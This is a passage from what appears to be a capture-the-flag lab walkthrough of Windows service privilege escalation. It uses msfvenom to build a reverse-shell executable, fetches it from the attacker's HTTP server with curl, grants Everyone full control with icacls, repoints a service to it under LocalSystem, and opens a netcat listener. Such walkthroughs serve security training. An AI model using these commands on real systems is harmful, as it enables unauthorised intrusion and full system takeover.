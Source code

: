 3. `msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <OUTPUT FILE>` from our attack machine to generate a custom reverse shell payload executable (.exe)
```Bash
root@ip-10-10-6-207:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.6.207 LPORT=9999 -f exe-service -o ReverseShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: ReverseShell.exe
```

4. `python3 -m <MODULE>` from our attack machine to start a simple HTTP server on our local machine using Python 3's built in HTTP server module (`http.server`)
```Bash
root@ip-10-10-6-207:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

5. `curl <ATTACK MACHINE HTTP SERVER>:<PAYLOAD FILE PATH> -O <OUTPUT FILE>` from the compromised Windows machine to make an HTTP request to our previously set up Python server on our attack machine to download our previously generated reverse shell payload executable onto the compromised machine
```PowerShell
C:\Users\thm-unpriv>curl http://10.10.6.207:8000/ReverseShell.exe -O ReverseShell.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 48640  100 48640    0     0  48640      0  0:00:01 --:--:--  0:00:01 1532k
curl: (6) Could not resolve host: ReverseShell.exe
```

6. `icacls <PAYLOAD> /grant Everyone:F` from the compromised Windows machine to grant full control (read, write, and execute permissions) to the "Everyone" group for our payload
```PowerShell
C:\Users\thm-unpriv>icacls C:\Users\thm-unpriv\ReverseShell.exe /grant Everyone:F
processed file: C:\Users\thm-unpriv\ReverseShell.exe
Successfully processed 1 files; Failed processing 0 files
```

7. `sc config <SERVICE> binPath= "<BINARY PATH>" obj= <SERVICE ACCOUNT>` from the compromised Windows machine to configure the binary path to our payload and the service to run under the `LocalSystem` account for our target service
```PowerShell
C:\Users\thm-unpriv>sc config THMService binPath= "C:\Users\thm-unpriv\ReverseShell.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
```

8. `nc <PORT NUMBER>` from our attack machine to launch a netcat listener that'll listen for any inbound connection
```Bash
root@ip-10-10-6-207:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

9. `sc stop <SERVICE>` from the compromised Windows machine to stop our target service
```PowerShell
C:\Users\thm-unpriv>sc stop THMService
[SC] ControlService FAILED 1062:

The service has not been started.
```
